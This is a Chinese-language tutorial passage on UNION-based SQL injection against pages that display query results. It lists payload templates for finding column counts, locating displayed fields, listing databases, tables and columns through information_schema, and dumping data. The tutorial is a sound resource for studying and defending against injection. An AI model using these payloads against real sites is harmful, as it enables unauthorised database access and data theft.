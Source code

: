 # 注入法详解
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 回显注入法(能在页面直接显示结果)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;UNION联合查询: 通过 union 操作符，合并两个或者多个select语句的结果集
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union内部的select语句必须拥有**相同数量的列**，列的数据类型必须相似，列的顺序也必须相同
![](/assets/WX20190221-152225@2x.png)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union注入法前提要知道列数和页面能回显，一般注入步骤如下:
```sql
确定列数: order by NUM，NUM采用二分方法加快查询速度，NUM回显报错就说明超过列数
显示位置: 参数 union select num1，num2，..,NUM，参数要强制报错，才能显示返回数据的位置
查询库: union select num1,group_concat(schema_name) from information_schema.schemata
查询表: union select num1,group_concat(table_name) from information_schema.tables where table_schema=database()
查询列: union select num1,group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
查数据: union select num1,concat_ws(0x7e,列名,列名) from 库名.表名

注意点: 1.表名要么加上引号，要么建议使用十六进制
```


